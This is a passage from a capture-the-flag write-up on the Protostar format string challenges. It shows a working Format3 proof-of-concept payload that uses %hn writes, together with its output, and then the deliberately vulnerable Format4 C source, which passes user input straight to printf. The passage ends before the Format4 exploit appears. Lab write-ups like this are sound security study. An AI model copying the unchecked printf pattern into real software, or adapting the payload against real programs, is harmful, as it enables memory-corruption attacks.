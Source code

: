 #### 2.3 Final PoC

```
python -c 'print "\x32\xa0\x04\x08\x30\xa0\x04\x08%250d%12$hn%21570d%13$hn"' | ./format_3

2�0�                                                                                                                                                                                                                                                -134281632                                                                                                                                                                                                                                                                                                                                  -11900
you have modified the target :)
```


## Protostar-Format4 Solution

### 1. Introduction

This is a poc solution for the "Format4" challenge of Protostar. It's short and hopefully it's easy for everyone who wants to have a look.

Source:
[https://web.archive.org/web/20140811171216/http://exploit-exercises.com/protostar/format4](https://web.archive.org/web/20140811171216/http://exploit-exercises.com/protostar/format4) 
 
**Hints:**
* format4 looks at one method of redirecting execution in a process.
* *objdump -TR is your friend

#### 1.1 Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);  
}

int main(int argc, char **argv)
{
  vuln();
}
```
